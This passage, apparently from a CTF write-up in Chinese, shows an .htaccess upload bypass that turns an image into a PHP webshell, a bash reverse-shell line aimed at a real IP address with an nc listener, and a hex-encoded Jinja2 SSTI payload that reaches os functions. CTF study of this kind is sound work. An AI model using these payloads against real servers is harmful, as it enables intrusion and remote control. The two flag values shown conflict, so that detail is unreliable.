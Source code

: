 构造文件 `.htaccess`. 这将会使得 Apache 将 JPG 文件以 PHP 文件的方式解析：

```xml
<!-- .htaccess -->
<ifModule mime_module>
AddHandler php5-script .jpg
</ifModule>
```

上传成功！

再访问 `/upload/webshell.jpg`, 发现已经显示为 php.

我们不妨再上传一个 `bash.png` 内容如下：

```bash
bash -i &> /dev/tcp/47.97.152.130/54188 0>&1
```

然后在主控机上监听端口 `nc -lvp 54188`，在 WebShell 上传 payload 执行该文件拿到 shell.

```url
shell=bash bash.png
```

主控机上已拿到 shell，但根目录下未发现 flag，尝试查看环境变量，执行：

```shell
www-data@out:/$ export -p
```

得到其中一条为：

```shell
declare -x FLAG="flag{157d77e1-0d53-42db-a9d6-2b98e4cacec0}"
```

获得 flag.

```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### BabySSTI_Three

使用 pyload

```python
{{''['__class__']['__base__']['__subclasses__']()[166]['__init__']['__globals__']['__builtins__']['eval']('__import__('os').listdir('/')')}}
```

对字符串进行 ASCII 编码绕过，有：

```python
{{''['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[166]['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x27\x2f\x27\x29')}}
```

